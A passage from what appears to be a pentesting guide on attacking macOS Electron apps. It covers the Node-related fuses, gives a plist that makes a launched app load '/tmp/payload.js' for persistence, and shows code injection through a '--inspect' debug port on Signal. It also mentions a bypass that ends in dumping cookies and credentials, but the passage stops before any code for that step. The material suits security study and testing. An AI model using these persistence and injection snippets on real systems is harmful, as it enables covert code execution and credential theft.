 > [!CAUTION]
> If the fuse **`EnableNodeOptionsEnvironmentVariable`** is **disabled**, the app will **ignore** the env var **NODE_OPTIONS** when launched unless the env variable **`ELECTRON_RUN_AS_NODE`** is set, which will be also **ignored** if the fuse **`RunAsNode`** is disabled.
>
> If you don't set **`ELECTRON_RUN_AS_NODE`** , you will find the **error**: `Most NODE_OPTIONs are not supported in packaged apps. See documentation for more details.`

### Injection from the App Plist

You could abuse this env variable in a plist to maintain persistence adding these keys:

```xml
<dict>
    <key>EnvironmentVariables</key>
    <dict>
           <key>ELECTRON_RUN_AS_NODE</key>
           <string>true</string>
           <key>NODE_OPTIONS</key>
           <string>--require /tmp/payload.js</string>
    </dict>
    <key>Label</key>
    <string>com.hacktricks.hideme</string>
    <key>RunAtLoad</key>
    <true/>
</dict>
```

## RCE with inspecting

According to [**this**](https://medium.com/@metnew/why-electron-apps-cant-store-your-secrets-confidentially-inspect-option-a49950d6d51f), if you execute an Electron application with flags such as **`--inspect`**, **`--inspect-brk`** and **`--remote-debugging-port`**, a **debug port will be open** so you can connect to it (for example from Chrome in `chrome://inspect`) and you will be able to **inject code on it** or even launch new processes.\
For example:

```bash
/Applications/Signal.app/Contents/MacOS/Signal --inspect=9229
# Connect to it using chrome://inspect and execute a calculator with:
require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator')
```

In [**this blogpost**](https://hackerone.com/reports/1274695), this debugging is abused to make a headless chrome **download arbitrary files in arbitrary locations**.

> [!TIP]
> If an app has its custom way to check if env variables or params such as `--inspect` are set, you could try to **bypass** it in runtime using the arg `--inspect-brk` which will **stop the execution** at the beggining the app and execute a bypass (overwritting the args or the env variables of the current process for example).

The folllowing was an exploit that monitoring and executing the app with the param `--inspect-brk` it was possible to bypass the custom protection it had (overwritting the params of the process to remove `--inspect-brk`) and then injecting a JS payload to dump cookies and credentials from the app:
